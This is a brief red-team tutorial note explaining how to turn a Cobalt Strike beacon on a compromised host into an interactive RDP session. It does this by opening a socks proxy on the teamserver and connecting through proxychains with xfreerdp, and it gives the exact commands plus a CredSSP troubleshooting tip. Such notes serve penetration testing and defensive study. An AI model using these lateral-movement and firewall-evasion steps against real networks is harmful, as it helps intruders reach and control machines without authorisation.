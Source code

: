 ```yaml
---
description: 'Lateral Movement, Tunnelling, Firewall Evasion'
---
```


# From Beacon to Interactive RDP Session

This is a quick note showing how to get an interactive Remote Desktop Session \(RDP\) session from a Cobalt Strike beacon by leveraging socks proxy and proxychains.

## Socks Proxy

Say we have compromised a box and we have a beacon running on it:

![](../../.gitbook/assets/image%20%2814%29.png)

The same compromised machine is listening on 3389, meaning it accepts incoming RDP connections:

![](../../.gitbook/assets/image%20%28138%29.png)

Most often you will not be able to reach the machine via RDP from the outside due to corporate and host firewalls, however not all is lost - the machine is still reachable over RDP via sock proxy capability that the beacon provides.

Using the beacon we control, let's create a socks proxy on port 7777. This will expose a TCP port 7777 on the teamserver:

```text
socks 7777
```

![](../../.gitbook/assets/image%20%2824%29.png)

## Proxychains

With the socks proxy create, we can now jump onto any linux box \(Kali in my case\) and configure proxychains to point it to the teamserver and the port we've just exposed:

![](../../.gitbook/assets/image%20%2830%29.png)

We can now connect to the compromised box via RDP using xfreerdp:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
proxychains xfreerdp /v:127.0.0.1:3389 /u:spotless
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below illustrates a successful RDP connection was established although the user on the other end \(me\) killed the session:

![](../../.gitbook/assets/image%20%28204%29.png)

{% hint style="warning" %}
**If you are getting...**  
`Error: CredSSP initialize failed, do you have correct kerberos ticket initialized?  
Failed to connect, CredSSP required by server`

Suggestion is to use `xfreerdp` instead of `rdesktop` and the issue will go away.
{% endhint %}

![CredSSP error using rdesktop](../../.gitbook/assets/image%20%2878%29.png)

